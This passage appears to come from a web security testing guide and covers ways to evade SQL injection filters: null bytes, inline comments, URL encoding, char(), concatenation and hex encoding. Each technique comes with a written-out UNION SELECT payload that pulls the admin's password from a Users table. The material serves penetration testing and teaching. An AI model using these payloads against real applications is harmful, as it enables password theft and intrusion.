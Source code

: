 Use null byte (%00) prior to any characters that the filter is blocking.

For example, if the attacker may inject the following SQL

    ' UNION SELECT password FROM Users WHERE username='admin'--

to add Null Bytes will be

    %00' UNION SELECT password FROM Users WHERE username='admin'--

#### SQL Comments

Adding SQL inline comments can also help the SQL statement to be valid and bypass the SQL injection filter. Take this SQL injection as example.

    ' UNION SELECT password FROM Users WHERE name='admin'--

Adding SQL inline comments will be.

    '/**/UNION/**/SELECT/**/password/**/FROM/**/Users/**/WHERE/**/name/**/LIKE/**/'admin'--

    '/**/UNI/**/ON/**/SE/**/LECT/**/password/**/FROM/**/Users/**/WHE/**/RE/**/name/**/LIKE/**/'admin'--

#### URL Encoding

Use the online URL encoding to encode the SQL statement

<http://meyerweb.com/eric/tools/dencoder/>

    ' UNION SELECT password FROM Users WHERE name='admin'--

The URL encoding of the SQL injection statement will be

    %27%20UNION%20SELECT%20password%20FROM%20Users%20WHERE%20name%3D%27admin%27--

#### Character Encoding

Char() function can be used to replace English char. For example, char(114,111,111,116) means root

    ' UNION SELECT password FROM Users WHERE name='root'--

To apply the Char(), the SQL injeciton statement will be

    ' UNION SELECT password FROM Users WHERE name=char(114,111,111,116)--

#### String Concatenation

Concatenation breaks up SQL keywords and evades filters. Concatenation syntax varies based on database engine. Take MS SQL engine as an example

       select 1

The simple SQL statement can be changed as below by using concatenation

       EXEC('SEL' + 'ECT 1')

#### Hex Encoding

Hex encoding technique uses Hexadecimal encoding to replace original SQL statement char. For example, 'root' can be represented as 726F6F74

          Select user from users where name = 'root'
